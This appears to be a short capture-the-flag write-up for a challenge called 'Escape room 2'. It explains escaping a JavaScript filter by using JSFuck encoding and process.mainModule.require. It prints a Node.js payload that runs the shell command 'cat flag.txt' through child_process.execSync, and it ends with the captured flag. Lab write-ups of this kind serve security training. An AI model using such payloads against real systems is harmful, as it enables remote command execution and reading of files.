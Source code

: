 # Escape room 2

## Write-up

To bypass the filter, we can use [JSFuck](https://jsfuck.com/) which encodes Javascript/NodeJS into a mix of `!+[]()`.
To keep `require` defined, we have to use `process.mainModule.require` instead.

The payload is:

```javascript
console.log(
  process.mainModule
    .require("child_process")
    .execSync("cat flag.txt")
    .toString()
);
```

## Flag

`flag-1e4011697d0ea15fc6a3cf37baaf2d5f`
